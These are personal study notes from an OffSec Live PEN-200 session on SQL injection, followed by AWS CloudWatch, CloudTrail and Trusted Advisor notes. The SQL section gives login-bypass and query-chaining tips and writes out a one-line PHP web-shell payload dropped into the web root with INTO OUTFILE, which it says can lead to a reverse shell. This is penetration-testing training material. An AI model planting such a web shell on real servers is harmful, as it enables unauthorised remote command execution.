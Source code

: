 # OffSec Live: PEN-200 & AWS Deep Dive

**author**:: Nathan Acks  
**date**:: 2022-08-03

The semi-regular Wednesday twofer: OffSec Live in the morning and the "Monitoring and Analytics" portion of the "AWS Cloud Practitioner Essentials" course in the evening.

* [OffSec Live](https://www.offensive-security.com/offsec/offsec-live/)
* [Join OffSec Live](https://learn.offensive-security.com/offsec-live-webinars)
* [AWS Cloud Practitioner Essentials](https://www.aws.training/learningobject/curriculum?id=27076)

## OffSec Live: SQL Injection

Remember that when trying to bypass logins with SQL injection, it's a good idea to use `limit 1` to ensure that the code gets back the expected number of results!

In MySQL, you can use `concat()` to return values from multiple columns in a single output field. Since `concat()` accepts hexadecimal values for ASCII characters, we can use `0x3a` (`:`) to make field separation obvious.

Sometimes you can chain queries as part of SQL injection. This isn't useful for *retrieving* input, but if the database is badly secured you can use this to *modify* the backend database (obviously requires the application to be using the same user/permissions for both reads and writes). Use the `sleep()` function to test if this vulnerability impacts the system you're attacking.

* [SQL Injection](../notes/sql-injection.md)

### MySQL Reverse Shells

It's really hard to get a reverse shell in PostgrSQL. But MySQL and MariaDB are more exploitable.

You can "upload" reverse shells using MySQL using `INTO OUTFILE`: `'<?php system($_GET["cmd"]); ?>' INTO OUTFILE '/var/www/html/cmd.php'` (the path may require some brute-forcing or additional reconnaissance; sometimes you can force an error to return a potentially writeable path). This can then be leveraged into a reverse shell.

* [Exploiting MySQL](../notes/exploiting-mysql.md)

## Monitoring and Analytics

### CloudWatch

CloudWatch is primarily about log *monitoring* - *metrics* are extracted from logs, which can be watched by *alarms* that trigger certain actions (like sending messages to SNS) when triggered.

CloudWatch can ingest data from on-prem systems, in addition to services/system in AWS.

### CloudTrail

CloudTrail is AWS's (API) logging engine.

Logs are stored in S3.

Events are logged with 15 minutes.

CloudTrail has its *own* alarm/automation system, called "CloudTrail Insights".

You might thing of CloudTrail as being more concerned about account *activity*, and CloudWatch as being more focused on service/resource *performance*.

### Trusted Advisor

This seems to be a more general version of AWS Inspector - Trusted Advisor is more about your *entire* AWS account, while AWS Inspector is geared more towards individual systems.

Trusted Advisor can detect S3 buckets with open access permissions. (It's starting to sound a bit like Scout Suite.)

* [nccgroup / ScoutSuite](https://github.com/nccgroup/ScoutSuite)
